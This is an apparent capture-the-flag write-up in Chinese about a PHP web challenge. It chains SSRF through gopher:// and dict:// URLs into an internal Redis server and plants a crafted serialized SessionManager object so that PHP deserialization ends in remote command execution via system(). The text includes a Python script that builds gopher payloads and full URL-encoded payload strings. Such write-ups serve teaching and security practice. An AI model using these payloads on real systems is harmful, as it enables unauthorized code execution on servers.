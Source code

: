 經過長時間的閱讀後可以發現他會將 cookie `sess_id` 作為 key，現在所用的 `BrowsingSession` class serialize 後儲存到 redis 格式是長這樣 `O:15:"BrowsingSession":1:{s:7:"history";a:1:{i:0;s:19:"https://google.com/";}}` 這就是他做 history 的方式。

![image](https://user-images.githubusercontent.com/57281249/168680103-d9a97b08-e658-4fa6-8ffb-91ba0c8a9c97.png)

![image](https://user-images.githubusercontent.com/57281249/168680292-7ac1febd-13a0-48a6-b4ca-a9aead5ff853.png)

這樣的話就可以用這隻 script 建立 payload (dict 的話冒號會不見)
``` python
from urllib.parse import quote
import sys

tcp_payload = sys.argv[2]
ip = sys.argv[1]
url = f"gopher://{ip}:6379/_{quote(tcp_payload)}"
print(url)
```

但是 `BrowsingSession` 並沒有可以利用這點做 RCE 的地方，因為他只有一個 `history` 的 variable 並作為 array 做存取。

發現 `SessionManager` 的 `encode` 跟 `decode` 是 variable function 執行位置是在 `get()` 跟 `__destruct()`(解構子)

原本是著利用 `get()` 做 RCE 因為外層的 `SessionManager` 再跑 `$session->push` 會用 `__call()` return 的 class 去執行 `push` 
而 `get()` 的內容是 `val` 有東西就直接 return，redis 內有東西就直接 decode redis 的 value，都沒就建一個，而存在 redis 的東西被使用 `gopher://192.168.224.2:6379/_SET%20fc57bda95a5184e55555%20%22O%3A14%3A%5C%22SessionManager%5C%22%3A3%3A%5C%7Bs%3A3%3A%5C%22val%5C%22%3BN%3Bs%3A6%3A%5C%22decode%5C%22%3Bs%3A6%3A%5C%22system%5C%22%3Bs%3A6%3A%5C%22sessid%5C%22%3Bs%3A4%3A%5C%22code%5C%22%3B%5C%7D%22` 改成 `O:14:"SessionManager":3:{s:3:"val";N;s:6:"decode";s:6:"system";s:6:"sessid";s:4:"code";}`
所以他會跑內部的 `SessionManager` 的 `__call()` 然後 call `get()` 因為 `val` 是 null 所以會找 redis，因 redis 的 value 有用 `dict://192.168.224.2:6379/SET%20code%20%22ls%22` 設 `code` 為 `ls` 的 command 且 `decode` 被改成 `system` 所以會 RCE。

![image](https://user-images.githubusercontent.com/57281249/168680691-80edc434-15b8-452f-815a-b385a0cfe275.png)

![image](https://user-images.githubusercontent.com/57281249/168680802-cd723fc9-fa33-428e-9926-862e7438dc30.png)

然而忽略了一點是 `get()` 內的 redis 是 `$this` 下面的而非 `global` 而 connect 後的 redis 無法用 `unserialize` 製造，所以用 `get()` RCE 會是失敗的。

![image](https://user-images.githubusercontent.com/57281249/168680978-db80ee91-3815-4818-b47d-df422484bcb4.png)

後來想到如果成是 error 內部的 `SessionManager` 也會做 `__destruct()` 因此用 `gopher://192.168.224.2:6379/_SET%20fc57bda95a5184e55555%20%22O%3A14%3A%5C%22SessionManager%5C%22%3A3%3A%5C%7Bs%3A3%3A%5C%22val%5C%22%3Bs%3A2%3A%5C%22ls%5C%22%3Bs%3A6%3A%5C%22encode%5C%22%3Bs%3A6%3A%5C%22system%5C%22%3Bs%3A6%3A%5C%22sessid%5C%22%3Bs%3A4%3A%5C%22code%5C%22%3B%5C%7D%22` 將其設為 `O:14:"SessionManager":3:{s:3:"val";s:2:"ls";s:6:"encode";s:6:"system";s:6:"sessid";s:4:"code";}` 

![image](https://user-images.githubusercontent.com/57281249/168681047-d59c3bac-65ee-43ae-a00c-e00e616549f1.png)

然後將 cookie 切為 `fc57bda95a5184e55555` 然後隨便看一個 url 可以發現成功 RCE。

![image](https://user-images.githubusercontent.com/57281249/168681126-6a23d53c-493c-49c6-96fe-7edfe8cd9145.png)
